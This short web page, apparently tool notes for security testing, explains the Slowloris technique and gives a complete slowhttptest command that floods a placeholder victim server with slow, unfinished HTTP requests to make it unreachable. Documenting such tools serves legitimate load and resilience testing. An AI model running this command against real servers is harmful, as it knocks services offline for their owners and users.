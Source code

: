 ```yaml
---
layout: post
title:  "Slowhttptest"
categories: scan deny
summary: Slowlori attack is opening connections to HTTP server and keeps connections open
---
```


{% include instructions.md %}

# {{page.title}}
Slowlori attack is opening connections to HTTP server and keeps connections open. This makes web server to be very slow or unreachable.

Open 1000 connection and send only unfinished HTTP requests. Open 200 new connections per second and keep connections open by sending GET method in every 10 second with maximum length of 24 and wait 3 seconds for response.
```shell
# slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://[victim ip address or domain] -x 24 -p 3
```